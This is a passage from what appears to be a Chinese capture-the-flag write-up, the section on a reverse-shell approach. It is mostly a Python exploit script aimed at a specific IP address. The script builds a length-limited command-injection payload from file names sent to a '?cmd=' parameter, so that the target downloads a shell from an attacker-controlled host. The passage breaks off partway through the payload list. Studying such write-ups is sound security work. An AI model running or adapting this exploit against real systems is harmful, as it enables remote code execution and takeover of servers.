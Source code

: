   - 思路3

    反弹shell

    复制

    ```
    #-*-coding:utf8-*-
    import requests as r
    from time import sleep
    import random
    import hashlib
    target = 'http://52.197.41.31/'
     
    # 存放待下载文件的公网主机的IP
    shell_ip = 'xx.xx.xx.xx'
     
    # 本机IP
    your_ip = r.get('http://ipv4.icanhazip.com/').text.strip()
     
    # 将shell_IP转换成十六进制
    ip = '0x' + ''.join([str(hex(int(i))[2:].zfill(2))
                         for i in shell_ip.split('.')])
     
    reset = target + '?reset'
    cmd = target + '?cmd='
    sandbox = target + 'sandbox/' + 
        hashlib.md5('orange' + your_ip).hexdigest() + '/'
     
    # payload某些位置的可选字符
    pos0 = random.choice('efgh')
    pos1 = random.choice('hkpq')
    pos2 = 'g'  # 随意选择字符
     
    payload = [
        '>dir',
        # 创建名为 dir 的文件
     
        '>%s>' % pos0,
        # 假设pos0选择 f , 创建名为 f> 的文件
     
        '>%st-' % pos1,
        # 假设pos1选择 k , 创建名为 kt- 的文件,必须加个pos1，
        # 因为alphabetical序中t>s
     